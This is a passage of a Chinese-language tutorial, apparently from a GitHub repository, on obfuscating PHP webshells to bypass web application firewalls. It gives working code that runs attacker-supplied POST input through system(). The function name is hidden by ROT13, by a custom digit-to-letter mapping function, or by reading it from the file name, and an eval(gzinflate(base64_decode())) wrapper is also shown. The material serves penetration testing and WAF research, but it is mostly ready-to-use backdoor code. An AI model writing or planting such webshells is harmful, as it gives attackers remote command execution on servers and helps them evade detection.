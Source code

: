 ```php
$f = str_rot13('flfgrz');  //解密后为system高危函数
$f($_POST['aabyss']);      //system($_POST['aabyss']);
```

当然还有很多其他的编码和加密方式，但常见的编码方式都被放入敏感名单了，会根据加密的形式自动进行解密

可以考虑一些比较冷门的编码方式，或者写一个类似于凯撒密码的加密函数，来对WAF进行ByPass

### 1.4 Gzip压缩加密

我先举一个 `phpinfo()` 加密后的示例：

```php
/*Protected by AabyssZG*/
eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA'))); 
```

加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html) 

## 2# 字符串混淆处理绕过

### 2.1 自定义函数混淆字符串

通过对上面所说两部分敏感内容的拼接、混淆以及变换，来绕过WAF的检测逻辑，如下：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

### 2.2 自定义函数+文件名混淆

同样，可以配合文件名玩出一些花活，我们建一个PHP名字为 `976534.php`：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}

$f = confusion(intval(substr(__FILE__, -10, 6)));   //sysTem（高危函数）
//__FILE__为976534.php
//substr(__FILE__, -10, 6)即从文件名中提取出976534
//confusion(intval(976534))即输出了sysTem（高危函数），拼接即可
$f($_POST['aabyss']);        //sysTem($_POST['aabyss']);
```
